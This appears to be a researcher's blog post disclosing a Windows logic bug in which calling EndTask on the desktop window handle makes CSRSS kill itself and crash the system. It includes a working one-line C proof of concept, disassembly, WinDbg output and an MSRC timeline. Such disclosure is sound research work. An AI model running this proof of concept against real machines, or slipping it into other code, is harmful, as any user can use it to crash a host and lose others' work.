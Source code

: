 +++
title = "An unexpected logic bug on Win32k"
authors = ["hugsy"]
date = 2020-03-09T00:00:00Z
updated = 2020-03-09T00:00:00Z
aliases = ["/posts/2020/03/09/an-unexpected-logic-bug-on-win32k.html"]

[taxonomies]
categories = ["research"]
tags = ["windows","kernel","logic","bug,win32k"]

[extra]
header_img = "/img/CDA9D98DF912DE08CB61AD0A3A148723A37BC3F3.png"
+++

## The short version

The short version is that there's a small logic bug in  `user32!EndTask()` which doesn't really check the `HWND` handle passed when forcefully killing the process, allowing unprivileged process to BSoD the host by killing the critical process `csrss`. And as a bonus the PoC code #FitsInATweet:

```c
int WinMain(HINSTANCE h, HINSTANCE ins, LPSTR cmd, int nb)
{
    EndTask(GetDesktopWindow(), 0, 1);
    return 0;
}
```

Just compile, run (here on a build 19569.1000 x64) and enjoy:

{{ img(src="https://i.imgur.com/DRxULeh.png" title="bsod") }}


## The less short version

Reversing `Win32k.sys` driver has been my hobby lately mostly to understand it (finally) seriously - if there is such a thing. This is a really small funny logic bug I encountered while reversing it, which I don't feel too bad disclosing since there is [no security exploitability](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria) (simply annoying your sysadmin).


### The juicy part

The legacy function [EndTask](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-endtask) can be used to forcefully close the specific window whose handle is passed as argument, and free all associated resources. Although deprecated according to the MSDN, it is still callable even on the latest Windows versions.

The function `user32!EndTask()` is merely a wrapper designed to forward some specific messages to the [CSRSS](https://en.wikipedia.org/wiki/Client/Server_Runtime_Subsystem) via an ALPC, using the exported function
`ntdll!CsrClientCallServer` with the ApiNumber 0x30401. Easily enough, the function takes the handle to the window to shut down. The function operates with the thread's token, and is unprivileged. Starting playing around, I remembered that `GetDesktopWindow()` will return a valid handle to the desktop window, but has [many interesting properties](https://devblogs.microsoft.com/oldnewthing/20040224-00/?p=40493) including that that it is owned by `csrss.exe`. That can be quickly demonstrated using the following code:

```c
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    char msg[1024]={0,};
    HWND hwnd = GetDesktopWindow();
    DWORD dwProcessId;
    GetWindowThreadProcessId(hwnd, &dwProcessId);
    sprintf(msg, "hwnd=%p pid=%lu\n", hwnd, dwProcessId);
    MessageBoxA(0,msg,0,MB_OK);
    return 0;
}
```
which will output the PID of CSRSS

{{ img(src="https://i.imgur.com/Q4XsJZP.png" title="finding_csrss") }}


In turn, CSRSS will consume that message and call `winsrvext!SrvEndTask()` then `winsrvext!EndTask()`. In this function, in order to determine the process to terminate `csrss` will invoke `GetWindowThreadProcessId()` and will use the found process id value to look into the [`CSR_PROCESS`](http://www.geoffchappell.com/studies/windows/win32/csrsrv/api/process/process.htm) linked
list (via `csrsrv!CsrRootProcess`), and find the `CSR_PROCESS` structure associated to such PID. From `winsrvext.dll`:

```asm
_EndTask      ; NTSTATUS __fastcall EndTask(HWND hWnd, int a2)
_EndTask      _EndTask        proc near               ; CODE XREF: SrvEndTask+119↓p
_EndTask                                              ; DATA XREF: .pdata:000000000001D21C↓o
[...]
_EndTask+A7                   lea     rdx, [rsp+120h+dwProcessId] ; lpdwProcessId
_EndTask+AC                   mov     rcx, rdi        ; hWnd
_EndTask+AF                   call    cs:__imp_GetWindowThreadProcessId
```

### The bug

And therein lied the bug: as shown above with the small C snippet, the owner of `GetDesktopWindow()` is `csrss` itself, therefore the lookup will return the `CSR_PROCESS` structure of `CSRSS` (which happens to be the first entry in the `CsrRootProcess` linked list). Finally, `winsrvext!EndTask()` will proceed to call `ntdll!NtTerminateProcess()` passing the handle to the
process `CSRSS`, which has the value `(HANDLE)-1` (i.e. `GetCurrentProcess()`). WinDbg can be used to confirm that behavior:

```txt
0: kd> dps poi( csrsrv!CsrRootProcess )
00000218`7d004550  00000000`00000c14 <- CSR_PROCESS.ClientId
00000218`7d004558  00000000`00000c18
00000218`7d004560  00000218`7d008bf0 <- CSR_PROCESS.LinkList
00000218`7d004568  00000218`7d04b3a0 <- CSR_PROCESS.ThreadList
00000218`7d004570  00000218`7d005368 [...]
00000218`7d004578  00000218`7d0486b8
00000218`7d004580  00000000`00000000
00000218`7d004588  00000000`00000000
00000218`7d004590  00000000`00000000
00000218`7d004598  00000000`00000000
00000218`7d0045a0  ffffffff`ffffffff <<- CSR_PROCESS.ProcessHandle (i.e. value passed to NtTerminateProcess)
00000218`7d0045a8  00000040`00000005
[...]
```

Therefore, this will make `CSRSS` killing itself when invoking calling the syscall `nt!NtTerminateProcess(GetCurrentProcess(), 0 )`. As a critical process, killing CSRSS will immediately result in a BSoD, which BugCheck clearly shows. Also note that this crash can be triggered by any user even with any privilege. In WinDbg the faulting stack trace of our BSoD retraces exactly everything we show:

```txt
CRITICAL_PROCESS_DIED (ef)
        A critical system process died
[...]
Arguments:
Arg1: ffffe30f47ce14c0, Process object or thread object
Arg2: 0000000000000000, If this is 0, a process died. If this is 1, a thread died.
[...]

STACK_TEXT:
ffff8803`2a71f280 fffff801`795c75c1 : [...] : nt!PspCatchCriticalBreak+0xa9
ffff8803`2a71f320 fffff801`79439fc0 : [...] : nt!PspTerminateAllThreads+0x175e3d
ffff8803`2a71f390 fffff801`79439da9 : [...] : nt!PspTerminateProcess+0xe0
ffff8803`2a71f3d0 fffff801`78fd2d15 : [...] : nt!NtTerminateProcess+0xa9
ffff8803`2a71f440 00007ff9`83b5c644 : [...] : nt!KiSystemServiceCopyEnd+0x25
000000b6`d35befd8 00007ff9`809066e5 : [...] : ntdll!NtTerminateProcess+0x14
000000b6`d35befe0 00007ff9`80906bae : [...] : winsrvext!EndTask+0x235
000000b6`d35bf110 00007ff9`80975af4 : [...] : winsrvext!SrvEndTask+0x11e
000000b6`d35bf380 00007ff9`83b2cedf : [...] : CSRSRV!CsrApiRequestThread+0x484
000000b6`d35bf810 00000000`00000000 : [...] : ntdll!RtlUserThreadStart+0x2f
```

## Final words

This was a good lesson, mostly because I would never have thought finding a (cheap) logic bug in an API that is around for decades and probably gleaned at many times by people way smarter.

Also, I've reported more Win32k bugs to MS which I'll be writing up on soon.

That's all for this quick post!

✌

## Disclosure timeline

  * 2019-12-09 : Bug found
  * 2020-02-08 : Finally found some time to do some analysis
  * 2020-02-09 : Issue submitted to MSRC (case 56511)
  * 2020-03-04 : EWONTFIX
